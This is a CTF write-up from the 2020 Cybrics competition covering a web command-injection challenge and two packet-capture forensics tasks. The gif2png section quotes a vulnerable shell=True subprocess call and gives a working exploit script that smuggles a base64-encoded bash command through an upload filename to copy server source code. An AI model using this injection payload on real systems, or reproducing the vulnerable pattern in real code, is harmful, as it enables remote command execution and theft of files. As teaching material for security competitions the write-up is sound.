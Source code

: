 ```yaml
---
layout: post
title: Cybrics CTF Writeup
date: 2020-07-25 01:00 +0700
modified: 2020-07-25 15:35:00 +07:00
tag:
  - ctf
  - writeup
comments: true  
image: https://0x90skids.com/cybrics-ctf-writeup/xcorp-flag.png
author: 0x90skids  
summmary: 0x90skids writeups for the 2020 Cybrics CTF Competition  
description:  0x90skids writeups for the 2020 Cybrics CTF Competition
---
```

# Categories 

+  [Web](#web)
+  [Forensics](#forensics)
+  [Network](#network)


## Web

### gif2png

**Solved By:** cernec1999  
**Points:** 52  
**Flag:** cybrics{imagesaresocoolicandrawonthem}

##### Challenge

This challenge features an eccentric GIF to PNG converter web application. The challenge ships with a directory of the source code. The server is a Python3 Werkzeug application with a flag variable stored in the source code. We have to figure out how to leak the source code file on the server-side to get the flag.

##### Solution

Right away, we can see there is a command line injection vulnerability at ```main.py:73```. The line looks like this:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

The file.filename variable (which is sent via the client upon file upload) can be controlled by an attacker. An attacker can set this filename to be arbitrary values. However, there are a few constraints that the filename must have in order to be "valid".

1. The filename must have the extension .gif
2. The content type must be image/gif
3. The filename must pass a regex constraint

The first two constraints are easy to bypass as the attacker can arbitrarily set the filename and content type from the client. The third constraint is a tad harder, but using our trusty regex knowledge, we can form the payload.

The condition we need to pass looks like this.

```python
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
```

Luckily, our payload can contain any alphanumeric characters and a few symbols which will make our life much easier. In our case, besides alphanumeric characters, we only need these three characters: ```'```, ```-```, and ```|```.

Using the unix pipe operator, we can run multiple commands. Normally, the pipe operator routes the standard out from a specific process to another process, but in our case, we will use it for our command injection.

Initially, I tried to make my payload send the main.py file to a remote server via curl (and Python3), but I could not get it to work. Perhaps they set up strange firewall rules. I then took the obvious route of simply moving the ```main.py``` file to the ```uploads/``` directory on the webserver.

Here is my completed solution. It even features encoding the payload into base64 so you can use many other symbols!

```python
#!/usr/bin/python3
import requests, base64

# Shellcode to execute
shellcode = "mkdir uploads/haxxxx && cp main.py uploads/haxxxx/main.py"

# b64 encoded shellcode
encoded = base64.b64encode(shellcode.encode("utf-8")).decode("utf-8")

# Exploit string
exp = f"\' | echo \'{encoded}\' | base64 -d  |  bash  | \'.gif"

# Upload file
files = {'file':(exp, open('FullColourGIF.gif', 'rb'), 'image/gif')}
r = requests.post("http://gif2png-cybrics2020.ctf.su/", files=files)
```

Then, we simply need to access http://gif2png-cybrics2020.ctf.su/uploads/haxxxx/main.py to get our flag.

## Forensics

### Krevedka

**Solved By:** cernec1999  
**Points:** 50  
**Flag:** cybrics{micropetalous}

##### Challenge

This challenge involves a large ```.pcapng``` file. Our task is to search through the HTTP requests and figure out which user "hacked" into another user's account.

The task says the victim user is ```caleches```.

##### Solution

1. First, we open the pcap file.
2. Then, we can do a simple binary search within to find the user ```caleches```.
3. We investigate the TCP stream of the hacked account to learn the attacker's user agent.
```
User-Agent: UCWEB/2.0 (Linux; U; Opera Mini/7.1.32052/30.3697; www1.smart.com.ph/; GT-S5360) U2/1.0.0 UCBrowser/9.8.0.534 Mobile
```
4. We search for that user agent in the packets.
5. We investigate the TCP stream of this user agent, and we find out that it's for the login of user ```micropetalous```.  


## Network  

### Xcorp  

**Solved By:** [tbutler0x90](https://tbutler.org)   
**Points:** 50  
**Flag:** cybrics{53CuR1tY_N07_0b5CuR17Y}

##### Challenge  

This challenge features a ```.pcap``` file which the author describes as being captured on the ficticious "xcorp" network. It incudes the description that employees on the xcorp network are using "in-house software" to keep their secrets.    

##### Solution  

1) First, we opened the pcap file with packet capture analyzer, Wireshark.   
2) Looking at the network traffic, we notice that the nc10.exe application is requested via the SMB protocol.      

![](2020-07-025-cybrics-ctf/xcorp-nc10.png)    

3) Using the file --> export objects option in wireshark, the nc10.exe and other files requested are exported.      

![](2020-07-025-cybrics-ctf/xcorp-export.png)    

1) The executable was a Microsoft Windows application. In order to run, it was executed in a windows VM.  The application asks for a username which was also found during the pcap analysis.    

![](2020-07-025-cybrics-ctf/xcorp-login.png)  

5) Running the application with the username "u17ra_h4ck3r" gave us the flag.

![](2020-07-025-cybrics-ctf/xcorp-flag.png)  





